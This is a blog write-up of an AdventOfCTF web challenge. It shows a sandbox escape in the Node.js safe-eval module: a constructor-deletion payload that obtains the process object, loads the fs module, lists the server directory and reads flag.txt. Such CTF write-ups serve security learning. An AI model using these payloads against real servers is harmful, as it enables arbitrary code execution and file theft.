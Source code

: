 +++
author = "Maik de Kruif"
title = "Challenge 19 - AdventOfCTF"
date = 2021-02-25T23:18:28+01:00
description = "A writeup for challenge 19 of AdventOfCTF."
cover = "img/adventofctf/d80f13d1ab714f7864c2a9ef56c5f767.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "javascipt",
    "nodejs",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 1900

## Description

We found out that it was possible to insert Javascript code in the calculator. Oops! We found an awesome module to prevent against this abuse. Hopefully it is all better now. The flag is in flag.txt.

Visit <https://19.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with an input field which asks us to "enter the nr of days until christmas".

When opening the source of the page we also find some javascript code:

```js
function send() {
  let calc = $("#calc")[0].value;
  if (calc.length > 0) {
    $.ajax({
      url: "/calc",
      type: "POST",
      data: '{"calc": "' + calc + '" }',
      contentType: "application/json; charset=utf-8",
      dataType: "json",
    }).always(function (data) {
      text = data;
      if (data.responseText) {
        text = data.responseText;
      }
      $("#msg")[0].innerHTML = "<b>" + text + "</b>";
    });
  }
}
```

As the description tells us it's a calculator, let's try entering `3+4` in the input field. It will make a `POST` request to `/calc`, which will return `7`.

The description also states it was possible to enter javascript code, which we saw in the [previous challenge]({{% ref "posts/adventofctf/challenge_18.md" %}}), but that it has been fixed now.

## Finding the vulnerability

To verify what the description says, let's try to enter `res` in the input field. Sadly, it looks like it actually has been fixed as we now get the following error:

```text
evalmachine.<anonymous>:11
  SAFE_EVAL_521493=res
  ^

ReferenceError: res is not defined
    at evalmachine.<anonymous>:11:3
    at Script.runInContext (vm.js:133:20)
    at Script.runInNewContext (vm.js:139:17)
    at Object.runInNewContext (vm.js:322:38)
    at safeEval (/opt/app/node_modules/safe-eval/index.js:24:6)
    at /opt/app/server.js:13:11
    at Layer.handle [as handle_request] (/opt/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/opt/app/node_modules/express/lib/router/route.js:137:13)
    at /opt/app/node_modules/body-parser/lib/read.js:130:5
    at invokeCallback (/opt/app/node_modules/raw-body/index.js:224:16)
```

When looking at this output, we can see that it uses the `safe-eval` module to evaluate the input.

I personally don't know this module so let's Google around a bit. Eventually, I found [this Github Issue](https://github.com/hacksparrow/safe-eval/issues/16#issuecomment-554301596) which talks about safe-eval not being so safe. Exactly what we need.

When scrolling down on the issue, we can see a comment with the following code:

```text
(
delete(this.constructor.constructor),delete(this.constructor),
this.constructor.constructor("return process")()
)
```

_Note: Sorry this code is not highlighted. If I do so, my formatter will mess it up..._

The comment has no further text in it so let's try entering the code. Don't forget to replace the double quotes (`"`) with single ones (`'`) though as, otherwise, the JSON will no longer be valid.

After making the request, the server returns the following string: `[object process]`. This means the code worked, and we can build an exploit on it.

## Exploit

Because we now have the `process` object, we can use it to require modules and execute code.

To read the directory contents of the sever, we can use the following code:

```text
(() => {
  const process =
    (delete this.constructor.constructor,
    delete this.constructor,
    this.constructor.constructor('return process')());
  const require = process.mainModule.require;
  const fs = require('fs');
  return fs.readdirSync('.');
})();
```

_Note: Again, not formatted as my formatter will replace the single quotes with double ones._

In this code, I used the `process` to get the `require` function. I did this so I could get access to the `fs` module to read the directory contents. This, in turn, is all wrapped by a [self-executing anonymous function](https://developer.mozilla.org/en-US/docs/Glossary/Self-Executing_Anonymous_Function) so I could use variables to make it easier.

The above code returns the following output:

```text
flag.txt,node_modules,package-lock.json,package.json,public,server.js
```

Here we see the `flag.txt` file. Now let's read it using the `fs` module again:

```text
(() => {
  const process =
    (delete this.constructor.constructor,
    delete this.constructor,
    this.constructor.constructor('return process')());
  const require = process.mainModule.require;
  const fs = require('fs');
  return fs.readFileSync('flag.txt');
})();
```

## Solution

We got the flag! It is `NOVI{s@fe_eval_is_not_so_saf3}`.
